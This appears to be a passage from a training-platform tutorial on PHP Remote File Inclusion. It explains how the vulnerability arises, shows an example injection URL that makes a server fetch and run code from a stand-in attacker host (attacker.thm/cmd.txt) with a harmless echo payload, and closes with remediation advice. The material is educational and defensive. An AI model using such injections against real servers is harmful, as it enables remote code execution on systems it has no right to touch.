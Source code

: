### Remote File Inclusion - RFI

Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. One requirement for RFI is that the allow_url_fopen option needs to be on.


The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

    Sensitive Information Disclosure
    Cross-site Scripting (XSS)
    Denial of Service (DoS)


An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

#### Example

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message  Hello THM.

```
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

### Remediation



As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

1. Keep system and services, including web application frameworks, updated with the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.
